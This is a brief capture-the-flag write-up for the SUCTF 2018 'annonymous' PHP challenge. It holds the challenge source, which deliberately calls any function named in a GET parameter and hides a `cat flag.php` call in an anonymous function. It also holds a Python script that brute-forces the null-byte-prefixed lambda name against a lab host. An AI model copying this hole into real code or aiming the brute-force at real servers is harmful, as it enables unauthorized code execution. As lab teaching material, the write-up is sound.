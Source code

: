 # [SUCTF 2018]annonymous
![](<./img/Pasted image 20230226131534.png>)

```php
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__); 
```

创建了一个匿名函数，匿名函数以`<NUL>lambda_<num>`命名，直接爆破

```python
import requests

url = 'http://6a737906-4926-47a2-8b0e-8b51cac68f8e.node4.buuoj.cn:81/?func_name=%00lambda_{}'

for i in range(10000):
    response = requests.get(url.format(i))
    print("{}: {}".format(i, response.status_code))
    if response.status_code == 200:
        print(response.text)
        break
```

![](<./img/Pasted image 20230226134442.png>)
